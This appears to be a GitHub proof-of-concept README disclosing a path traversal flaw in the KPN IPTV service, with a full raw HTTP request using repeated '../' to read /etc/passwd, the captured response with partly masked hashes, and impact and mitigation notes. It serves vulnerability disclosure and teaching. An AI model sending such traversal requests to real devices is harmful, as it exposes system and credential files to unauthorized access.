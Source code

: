 # KPN-FilePathTraversal-POC-2023

# KPN ITV File Path Traversal Vulnerability

This repository explains a **file path traversal vulnerability** in the KPN IPTV service, allowing unauthorized access to sensitive system files, such as `/etc/passwd`.

---

## Vulnerability Overview

A **path traversal** (or directory traversal) attack occurs when an attacker manipulates the URL path to access directories and files outside the intended web directory. By using sequences like `../../`, an attacker can navigate up the directory structure and potentially access sensitive files.

---

## Example Attack Flow

### URL:
```plaintext
http://192.168.2.2:8081/Service/Controller/UI?ip=192.168.2.2&port=8081

This is the base URL of the KPN IPTV service.
Malicious Request:

http

GET /Service/Controller/UI../../../../../../../../../../../../../../../../etc/passwd?ip=192.168.2.2&port=8081 HTTP/1.1
Host: 192.168.2.2:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

In this request, the attacker exploits path traversal to reach the /etc/passwd file. This is done by adding multiple instances of ../, which moves up the directory structure.
Burp Suite Response

The server responds with a 200 OK status and the contents of the /etc/passwd file, including sensitive information. The hashes in the response below have been blurred for privacy:

plaintext

HTTP/1.1 200 OK
Content-Type: unknown
Content-Length: 940

root:$5$96bRk************$uTSh**************RLdK1ND*********/XLWC:0:0:root:/home/root:/bin/sh
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
ntpd:x:1001:65534:Linux User,,,:/var/shared/empty:/bin/sh
utc:$5$qkymr************$M1qu**************JoEifmNs********AiybaC:1000:1000:utc:/home/utc:/bin/sh

Explanation of /etc/passwd

The /etc/passwd file stores essential user account information for a Unix-based system. It typically includes the following information:

    Username
    Password hash (if present)
    User ID (UID)
    Group ID (GID)
    Home directory
    Shell

While modern systems store password hashes in the /etc/shadow file, /etc/passwd can still leak important information, especially for attackers targeting system accounts.
Impact

    Information Disclosure: Attackers can access sensitive files like /etc/passwd, revealing system user information.
    Potential Exploitation: With access to password hashes, attackers can attempt password cracking or gain unauthorized system access.

Mitigation

    Input Validation: Ensure all user inputs are validated and sanitized to prevent malicious sequences like ../.
    Restrict Directory Access: Configure the web server to limit access to sensitive directories.
    Use Web Application Firewalls (WAFs): A WAF can help detect and block suspicious URL patterns associated with path traversal attacks.

Conclusion

Path traversal vulnerabilities can lead to severe data exposure and compromise system integrity. This example from the KPN IPTV service demonstrates how improper input validation can open the door to sensitive information leakage. Always implement strong security measures to mitigate such risks.
